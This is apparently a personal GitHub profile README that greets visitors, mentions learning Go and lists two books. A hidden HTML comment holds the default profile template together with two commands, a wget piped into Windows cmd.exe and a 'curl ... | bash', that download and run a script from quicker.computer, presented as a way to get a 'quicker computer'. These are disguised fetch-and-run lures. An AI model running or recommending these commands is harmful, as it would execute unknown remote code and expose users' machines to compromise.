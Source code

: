## Hi
This is DackJempseys profile. Take a look around and let me know if you have any questions. 

### Currentl Learning
Working on sharpening my Go programing skills. Be sure to check in for more repos.

### Current Books
[Black Hat Go](https://nostarch.com/blackhatgo)
[Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)

<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
